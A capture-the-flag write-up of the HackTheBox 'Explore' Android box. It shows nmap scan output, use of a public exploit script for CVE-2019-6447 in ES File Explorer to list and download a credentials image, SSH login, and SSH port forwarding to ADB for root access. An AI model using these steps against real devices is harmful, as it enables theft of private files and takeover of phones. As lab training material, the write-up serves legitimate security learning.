




# Explore - Android (Easy)

## Summary
This is an Android box on HackTheBox (HTB). It is currently marked as 'Easy' and aims to exploit a vulnerability in ES File Explorer. This allowed access to files off a mobile and subsequent access  to files/photos, one allowing me to grab a password scribbled on a note, saved as an image. I acted on this by SSH'ing as the user and thereby access the Android Debug (ADB) service, which allowed me to escalate permissions to gain root level access. 

## Enumeration

### Nmap Scan(s)

```
Nmap -sV Scan

nmap -sV 10.10.10.247 -vv            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 03:07 EDT

Not shown: 998 closed ports
Reason: 998 conn-refused
PORT     STATE    SERVICE REASON      VERSION
2222/tcp open     ssh     syn-ack     (protocol 2.0)
5555/tcp filtered freeciv no-response
1 service unrecognized despite returning data

Scanning All Ports

nmap -p- 10.10.10.247 -vv
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-21 03:27 EDT
Initiating Ping Scan at 03:27
Scanning 10.10.10.247 [2 ports]

Scanned at 2021-10-21 03:27:07 EDT for 50s
Not shown: 65530 closed ports
Reason: 65530 conn-refused
PORT      STATE    SERVICE      REASON
2222/tcp  open     EtherNetIP-1 syn-ack - SSH
5555/tcp  filtered freeciv      no-response - ADB. Android Debug Bridge
36135/tcp open     unknown      syn-ack
42135/tcp open     unknown      syn-ack
59777/tcp open     unknown      syn-ack - ES File Explorer
``` 

### Exploring ADB as an option - will be coming back to ADB

```
Android Debug Bridge version 1.0.41
Version 28.0.2-debian
Installed as /usr/lib/android-sdk/platform-tools/ad
```

[ES File Explorer 4.1.9.7.4 - Arbitrary File Read](https://www.exploit-db.com/exploits/50070)

I ran the following Python script to list 
```
python3 50070.py listPics 10.10.10.247 - list images present

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg - **seemed interesting**
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```

```

python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg - download file to local machine

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```


## Connecting to SSH

After SSH'ing to Kristi's account, I was able view the `user.txt` flag in the `/sdcard` directory.


## PrivEsc to gain root

I re-ran SSH on Kristi's account on port 2222 to set up port forwarding 

```
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555   
```

This allows me to connect to ADB, which offers a shell which can be leveraged to in turn, get the `root.txt` flag in the `/data` directory







